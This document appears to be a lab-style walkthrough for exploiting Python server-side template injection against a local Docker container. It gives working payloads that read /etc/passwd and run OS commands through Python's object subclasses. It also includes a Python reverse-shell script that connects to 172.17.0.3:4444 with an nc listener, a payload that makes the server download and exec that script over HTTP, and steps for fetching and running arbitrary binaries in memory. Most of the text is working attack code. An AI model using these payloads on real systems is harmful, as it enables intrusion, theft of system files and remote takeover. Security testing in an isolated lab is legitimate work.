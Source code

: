 ### Build distroless
```bash
docker build . -t py-ssti-dless
docker start -p 8080:8080 py-ssti-dless
```

### Raw image (no distroless)
```bash
docker run -it python:3.10-slim sh
```

### Read File
The symbol `216` is `<class 'warnings.catch_warnings'>`.
`http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["open"]("/etc/passwd").read()}}`

### RCE
`http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["__import__"]("os").popen("command -v python").read()}}`

### Get python rev shell

Create a file called `python_rev.py` with your **IP address** and **port**:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.17.0.3",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/usr/bin/python","-i"])
```

Start a listener on your machine:

```bash
nc -lvnp 4444
```

Now, lets make the server **exec** the python file **downloading it via http**:
```python
http://127.0.0.1:1337/?name={{(1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["exec"]((1).__class__.__base__.__subclasses__()[216]()._module.__builtins__["__import__"]("urllib", fromlist=["request"]).request.urlopen("http://172.17.0.3:8989/tmp/python_rev.py").read())}}
```

**You should have received the python shell!**


### Execute arbitrary binaries

Generate the payload to load in memory with `fee /bin/ls > ls.py`. **AND UPDATE** the payload with the following code at the beggining **or you will lose your shell**:

```python
# imports ...
pid = os.fork()
if pid == 0: #pid==0 represents the child process
# Rest of the payload inside this if
```

**If you want to execute the binary with more params, add them in the last line of the payload**

In your python reverse shell run this to **download and execute the binary**:

```python
from urllib import request
ls = request.urlopen("http://172.17.0.3:8989/tmp/ls.py").read()
exec(ls)
```
